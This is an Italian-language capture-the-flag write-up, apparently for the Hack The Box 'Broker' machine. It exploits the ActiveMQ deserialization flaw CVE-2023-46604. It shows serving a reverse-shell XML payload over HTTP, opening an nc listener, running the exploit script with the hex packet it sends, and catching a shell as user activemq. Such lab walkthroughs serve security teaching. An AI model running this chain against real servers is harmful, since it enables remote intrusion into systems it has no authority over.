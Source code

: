 
vediamo che all'interno del file poc.xml abbiamo quella che è  una revshell in bash. modifichiamo l'indirizzo IP delle revshell con il nostro indirizzo IP.

Tiriamo un su un sever python dove abbiamo il nostro file `.xml`  
```bash
┌──(root㉿kali)-[/home/kali/htb/broker/CVE-2023-46604]
└─# python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

ci mettiamo in ascolto con nc 
```bash
┌──(root㉿kali)-[/home/kali/htb/broker]
└─# nc -lvnp 9001
listening on [any] 9001 ...
```

eseguiamo l'exploit 
```bash
┌──(root㉿kali)-[/home/kali/htb/broker/CVE-2023-46604]
└─# python3 exploit.py -i 10.10.11.243 -u http://10.10.14.48:8000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.14.48:8000/poc.xml

[*] Sending packet: 000000721f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001f687474703a2f2f31302e31302e31342e34383a383030302f706f632e786d6c
```

abbiamo la nostra GET del file `poc.xml`

```bahs
┌──(root㉿kali)-[/home/kali/htb/broker/CVE-2023-46604]
└─# python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.243 - - [17/Nov/2023 12:07:00] "GET /poc.xml HTTP/1.1" 200 -
10.10.11.243 - - [17/Nov/2023 12:07:00] "GET /poc.xml HTTP/1.1" 200 -

```

e la nostra shell
```bash
┌──(root㉿kali)-[/home/kali/htb/broker]
└─# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.243] 51672
bash: cannot set terminal process group (903): Inappropriate ioctl for device
bash: no job control in this shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$ id
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
activemq@broker:/opt/apache-activemq-5.15.15/bin$
```
